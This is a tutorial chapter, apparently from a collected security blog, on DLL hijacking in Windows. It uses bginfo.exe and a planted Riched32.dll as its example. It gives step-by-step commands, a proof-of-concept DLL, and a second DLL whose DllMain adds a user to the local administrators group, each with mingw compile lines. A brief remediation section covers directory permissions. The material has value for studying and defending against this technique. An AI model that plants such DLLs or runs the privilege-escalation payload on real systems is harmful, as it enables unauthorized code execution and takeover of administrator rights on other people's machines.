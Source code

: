 \newpage
\subsection{6. DLL hijacking in Windows. Simple C example.}

﷽

![DLL hijacking](./images/8/2021-09-25_12-09.png){width="75%"}

What is DLL hijacking? DLL hijacking is technique when we tricking a legitimate/trusted application into loading an our malicious DLL.

In Windows environments when an application or a service is starting it looks for a number of DLL's in order to function properly. Here is a diagram showing the default DLL search order in Windows:    

![DLL hijacking](./images/8/dllhijack.png){width="75%"}

In our post, we will only consider the simplest case: the directory of an application is writable. In this case, any DLL loaded by the application can be hijacked because it’s the first location used in the search process.

### Step 1. Find process with missing DLLs

The most common way to find missing Dlls inside a system is running [procmon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) from sysinternals, setting the following filters:   

![procmon with filters](./images/8/2021-09-25_11-52.png){width="75%"}

which will identify if there is any DLL that the application tries to load and the actual path that the application is looking for the missing DLL:    

![procmon missing dlls](./images/8/2021-09-25_11-53.png){width="75%"}

In our example, the process `Bginfo.exe` is missing several DLLs which possibly can be used for DLL hijacking. For example `Riched32.dll`

### Step 2. Check folder permissions

Let's go to check folder permissions:
```cmd
icacls C:\Users\user\Desktop\
```

![folder permissions](./images/8/2021-09-25_14-42.png){width="75%"}

According to the [documentation](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls) we have write access to this folder.   

### Step 3. DLL hijacking

Firstly, let's go to run our `bginfo.exe`:    
![run bginfo](./images/8/2021-09-25_11-54.png){width="75%"}

Therefore if I plant a DLL called `Riched32.dll` in the same directory as `bginfo.exe` when that tool executes so will my malicious code. For simplicity, I create DLL which just pop-up a message box:   

```cpp
/*
DLL hijacking example
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD  ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call)  {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow-meow!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

Now we can compile it (on attacker's machine):     

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

![compile DLL](./images/8/2021-09-25_11-58.png){width="75%"}

Then rename as `Riched32.dll` and copy to `C:\Users\user\Desktop\` my malicious DLL.   

![replace DLL](./images/8/2021-09-25_14-54.png){width="75%"}

And now launch `bginfo.exe`:   

![run process 1](./images/8/2021-09-25_12-00.png){width="75%"}

![run process 2](./images/8/2021-09-25_12-04.png){width="75%"}

As you can see, our malicious logic is executed:

So, `bginfo.exe` and malicious `Riched32.dll` in the same folder **(1)**    
Then launch `bginfo.exe` **(2)**    
Message box is popped-up! **(3)**   

### Remediation

Perhaps the simplest remediation steps would be simply to ensure that all installed software goes into the protected directory `C:\Program Files` or `C:\Program Files (x86)`. If software cannot be installed into these locations then the next easiest thing is to ensure that only Administrative users have "create" or "write" permissions to the installation directory to prevent an attacker from deploying a malicious DLL and thereby breaking the exploitation.

### Privilege escalation

DLL hijacking can be used for more than just executing code. It can also be used to gain persistence and privilege escalation:    

Find a process that runs/will run as with other privileges (horizontal/lateral movement) that is missing a dll.   
Have write permission on any folder where the dll is going to be searched (probably the executable directory or some folder inside the system path).   

Then replace our code:
```cpp
/*
DLL hijacking example
author: @cocomelonc
*/

#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule, 
DWORD ul_reason_for_call, LPVOID lpReserved) {
  switch (ul_reason_for_call)  {
  case DLL_PROCESS_ATTACH:
    system("cmd.exe /k net localgroup administrators user /add");
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}

```

*For x64 compile with: x86_64-w64-mingw32-gcc evil.c -shared -o target.dll*          
*For x86 compile with: i686-w64-mingw32-gcc evil.c -shared -o target.dll*      

Further, all steps are similar.

### Conclusion

But in all cases, there is a caveat.   

Note that in some cases the DLL you compile must export multiple functions to be loaded by the victim process. If these functions do not exist, the binary will not be able to load them and the exploit will fail.    

So, compiling custom versions of existing DLLs is more challenging than it may sound, as a lot of executables will not load such DLLs if procedures or entry points are missing. Tools such as [DLL Export Viewer](https://www.nirsoft.net/utils/dll_export_viewer.html) can be used to enumerate all external function names and ordinals of the legitimate DLLs. Ensuring that our compiled DLL follows the same format will maximise the chances of it being loaded successfully.    

In the future I will try to figure out this, and I will try create python script which create `.def` file from target original DLL.   

[Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)     
[icacls](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)    
[DLL Export Viewer](https://www.nirsoft.net/utils/dll_export_viewer.html)      
[Module-Definition (def) files](https://docs.microsoft.com/en-us/cpp/build/reference/module-definition-dot-def-files?view=msvc-160&viewFallbackFrom=vs-2019)

[Source code in Github](https://github.com/cocomelonc/2021-09-24-dllhijack)     

I've added the vulnerable bginfo (version 4.16) to github if you'd like to experiment.

